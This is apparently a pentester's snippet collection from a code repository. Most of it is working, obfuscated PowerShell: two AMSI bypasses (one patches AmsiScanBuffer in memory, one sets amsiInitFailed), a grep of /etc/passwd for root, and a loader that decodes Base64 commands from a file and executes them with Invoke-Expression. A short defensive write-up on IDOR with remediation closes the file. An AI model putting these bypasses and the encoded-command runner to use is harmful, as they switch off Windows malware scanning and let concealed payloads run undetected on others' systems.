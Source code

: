 # AMSI-Bypass
$ZQCUW = @" 
using System;
using System.Runtime.InteropServices; 
public class ZQCUW { 
	[DllImport("kernel32")] 
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); 
	[DllImport("kernel32")] 
	public static extern IntPtr LoadLibrary(string name); 
	[DllImport("kernel32")] 
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect); 
} 

"@ 

Add-Type $ZQCUW 

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))") 
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))") 
$p = 0 
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p) 
$TLML = "0xB8" 
$PURX = "0x57" 
$YNWL = "0x00" 
$RTGX = "0x07" 
$XVON = "0x80" 
$WRUD = "0xC3" 
$KTMJX = [Byte[]] ($TLML, $PURX, $YNWL, $RTGX, + $XVON, + $WRUD) 
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)

==========================================================================
grep "^root:" /etc/passwd | cut -f4 -d: 

S`eT-It`em('V'+'aR'+'IA'+('blE:1'+'q2')+('uZ'+'x'))([TYpE]("{1}{0}"-F'F','rE'));(Get-varI`A`BLE(('1Q'+'2U')+'zX')-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')))."g`etf`iElD"(("{0}{2}{1}"-f('a'+'msi'),'d',('I'+'nitF'+'aile')),("{2}{4}{0}{1}{3}"-f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})

=============================================================

! Define the path to the text file containing the Base64-encoded PowerShell commands

$encodedFilePath = "path\to\your\encodedfile.txt"

! Read the Base64-encoded content from the text file

$encodedContent = Get-Content -Path $encodedFilePath

! Decode the Base64-encoded content

$decodedBytes = [System.Convert]::FromBase64String($encodedContent)

$decodedContent = [System.Text.Encoding]::UTF8.GetString($decodedBytes)

! Execute the decoded PowerShell commands

Invoke-Expression $decodedContent


=============================================================

Insecure Direct Object Reference (IDOR) via Transaction ID Manipulation
Description: Insecure Direct Object Reference (IDOR) via transaction ID manipulation occurs when an application fails to properly authorize access to transaction data. By altering the transaction ID in the URL or request parameters, an attacker can access other users' transaction data, which should not be visible to them.

Impact: This vulnerability can lead to unauthorized access to sensitive financial information, privacy violations, and potential regulatory non-compliance. Attackers can exploit this to view, modify, or manipulate transaction data of other users, leading to severe data breaches and loss of user trust.

Remediation: Implement strict authorization checks to verify that the requesting user has permission to access the specified transaction. Use indirect references or opaque identifiers for transactions instead of direct IDs. Regularly review and test the application for IDOR vulnerabilities.

Reference:

OWASP IDOR
One-liner recommendation: "It is recommended to implement strict authorization checks and use indirect references for transaction IDs to prevent IDOR vulnerabilities."
